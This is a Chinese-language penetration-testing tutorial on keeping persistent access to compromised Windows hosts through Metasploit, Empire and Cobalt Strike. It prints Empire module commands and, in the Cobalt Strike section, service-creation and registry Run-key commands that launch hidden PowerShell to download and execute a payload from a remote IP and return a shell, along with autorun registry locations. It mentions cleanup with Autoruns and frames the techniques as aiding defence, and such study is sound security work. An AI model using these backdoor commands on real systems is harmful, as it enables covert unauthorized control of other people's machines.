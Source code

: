 ### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个*meterpreter*  shell，通过*meterpreter* shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动(persistence)的方式，在目标机器上以反弹回连。

![](image/privilege-3-1.png)

~~~
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
~~~

生成的相关文件位置 ：

```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](image/privilege-3-2.png)

**Metsvc 模块**

通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](image/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](image/privilege-3-4.png)

### 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](image/privilege-3-17.png)


| elevated（管理权限） | misc（杂项） |  powerbreach  | userland（用户权限） |
| :-------                | :---------           | :---------                    | :---------   |
| registry*               | add_netuser      |   deaduser                | backdoor_lnk |
| schtasks*  |   add_sid_history*    |   eventlog*    | registry |
| wmi*   |    debugger*      | resolver  | schtasks |
| wmi_updater* |   disable_machine_acct_change*   |    |  |
||   get_ssps     |    |  |
||   install_ssp*     |    |  |
||   memssp*        |    |  |
||   skeleton_key*        |    |  |



**注册表**

~~~
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
~~~

![](image/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](image/privilege-3-6.png)

**计划任务**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
~~~

![](image/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](image/privilege-3-8.png)

**wmi**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
~~~

![](image/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](image/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](image/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](image/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](image/privilege-3-13.png)

**服务自启动后门**

~~~
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
~~~

重启服务器后，成功返回一个shell。

![](image/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

~~~
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f 
~~~

![](image/privilege-3-15.png)

 账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](image/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。


